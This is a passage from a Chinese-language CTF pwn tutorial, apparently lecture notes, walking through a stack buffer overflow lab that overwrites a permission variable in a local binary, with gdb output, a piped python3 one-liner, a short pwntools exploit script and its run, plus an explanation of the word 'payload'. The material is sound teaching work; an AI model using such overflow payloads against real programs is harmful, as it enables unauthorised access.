 我們將 `'A' * 0x4c + 'B'` 作為輸入，預期會將 `got_permisson` 覆蓋成 `'B'`

```
gdb-peda$ x/w $rbp - 0x4
0x7fffffffdaac: 0x00000042
```

我們看到我們成功將 `got_permission` 覆蓋成 `0x42` 了，也就是 `'B'`，接著我們跳出 gdb 試著使用這個字串作為輸入，我們可以使用 pipe 的技巧進行輸入，以下範例
```shell
$ python3 -c "print('a' * 0x4c + 'b')" | ./stack_1
Access Acept, Welcome to HackerSir
```
`python3 -c` 可以讓我們直接執行 `""` 內的程式碼，而 `|` 為 pipe，作用為將 `|` 左邊的輸出作為右邊部份的輸入，以上方指令意義為將 `python3 -c` 執行的結果作為 `./stack_1` 的輸入。

這裡我們成功完成通過 stack overflow 去覆蓋無法被變更的變數。

### pwntools
pwntools 為使用 python 撰寫，用於 CTF 以及 exploit 開發的函式庫，可以用來解析 ELF，本地啟動 process，以及各種與 process 互動的工具，shellcode 產生等等，下面為一個使用 pwntools 練習 Lab1 的範例
```py
from pwn import *

# Start the process
p = process('./stack_1')

# Payload
payload = 'a' * 0x4c + 'b'

# Send the input
p.sendline(payload)

# Receive the output
output = p.recvall().decode()

# Print the output
print(output)

```

```
python3 script.py
[+] Starting local process './stack_1': pid 11943
/home/ubuntu/Desktop/workspace/PWN_Lec/Lec1/Lab/stack_1/script.py:7: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  p.sendline('a' * 0x4c + 'b')
[+] Receiving all data: Done (35B)
[*] Process './stack_1' stopped with exit code 0 (pid 11943)
Access Acept, Welcome to HackerSir
```

在上面 python 腳本中，我們在本地啟動了 `stack_1` 的 process，並且使用 sendline 將 `'a' * 0x4c + 'b'` 作為我們的輸入，接著通過 `output` 去獲得 `stack_1` 輸出的結果。


> 關於 payload 的概念:
>
> payload 中文意義為對於某人重要的訊息，字面上來說我們很難去理解他的意思，我們從一個> 例子去看待 payload 的概念
> 
> 假設今天 alice 要寄信給 bob，在信件上，有寄件人，目的地地址，信件內容等等。
> 
> 對於郵差而言，信件中真正重要的部分為寄件地址，因此寄件地址對於郵差來說為 payload。
> 
> 對於 bob 而言，信件中真正重要的部分為信件內容，因此信件內容對於 bob 來說為 payload。
> 
> 以我們上面撰寫的腳本來說，整個 python 腳本稱為 exploit，而腳本中對於我們而言，真正重要的部分為 `'a' * 0x4c + 'b'`，這個部分才是觸發 overflow 的關鍵，因此對於我們來說，`'a' * 0x4c + 'b'` 為 payload。

